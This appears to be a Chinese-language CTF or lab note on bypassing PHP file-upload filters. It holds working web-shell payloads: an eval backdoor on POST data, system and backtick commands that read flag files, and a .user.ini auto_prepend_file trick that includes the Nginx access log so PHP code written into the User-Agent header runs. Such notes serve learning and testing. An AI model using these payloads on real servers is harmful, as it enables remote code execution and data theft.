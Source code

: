 ## 绕过过滤

**过滤了<?php**

​	`<?=eval($_POST[x]);?>`

​	`<?=system('tac ../fi*');?>`

**过滤了括号**

使用反引号运算符的效果与函数shell_exec()相同

```
<?=`tac ../f*`?>
```

**如果过滤得更严重**

包含一个日志文件

比如中间件Nginx，日志文件的位置是由中间件决定的，查一下

日志文件会记录UA头，在UA头写后门代码

```
.user.ini: auto_prepend_file=1.png
1.png: <?=include"/var/lo"."g/nginx/access.lo"."g"?>
```

上传1.png和.user.ini

![image-20250822214730039](assets/image-20250822214730039.png)

发现日志文件中有UA头，抓个包：

![image-20250822214745388](assets/image-20250822214745388.png)
